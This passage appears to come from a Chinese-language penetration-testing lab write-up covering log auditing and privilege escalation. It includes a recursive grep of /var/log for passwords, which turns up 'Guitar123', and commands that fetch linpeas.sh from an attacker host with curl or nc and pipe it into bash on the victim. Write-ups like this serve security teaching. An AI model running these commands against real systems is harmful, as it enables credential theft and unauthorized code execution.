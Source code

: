 ![Screenshot_20240418_010224](./图/Screenshot_20240418_010224.png)



#### 3).日志审计

```c
"cd /var/log"
"grep -r passw . 2>/dev/null"
/****************************************
这个命令使用 `grep` 工具在当前目录（`.`）及其所有子目录中递归搜索包含字符串 "passw" 的文件内容，
并将匹配的行显示出来。
让我来解释一下：

    - `grep`:  这是一个用于在文件中搜索指定模式的命令。
    - `-r`:    这是 `grep` 命令的选项之一，表示递归地在指定目录下搜索文件内容。
    - `passw`: 这是要搜索的模式或者字符串。在这个命令中，它是要搜索的目标字符串。
    - `.`:     这是要搜索的起始目录。`.` 表示当前目录。

    - `2>/dev/null`: 这部分是将标准错误输出（stderr）重定向到 `/dev/null`
                     目的是隐藏由于权限问题或者无法访问的目录导致的错误信息。

综合起来，这个命令的作用是在当前目录及其子目录中递归搜索包含字符串 "passw" 的文件内容，并将匹配的行显示出来。
************************************************************/
```

```c
“Guitar123”看起来不像电子邮件地址。它看起来像一个密码。
```

![Screenshot_20240418_010743](./图/Screenshot_20240418_010743.png)





### (4.坏豆子上传

#### 1).传统上传方法

```C
SO,关于提权 老一套 进攻方机开启80端口，受害机进行下载运行坏豆子 
    攻击机:'python3 -m http.server 8888'
    受害机:'curl -L http://10.10.14.22:8888/linpeas.sh | bash'
https://github.com/carlospolop/PEASS-ng
https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

![Screenshot_20240418_003243](./图/Screenshot_20240418_003243.png)



#### 2).奇葩上传方法

```c
被害方:"nc 10.10.14.13 8888 | bash"
进攻方:"nc -lvnp 8888 < linpeas.sh"
```
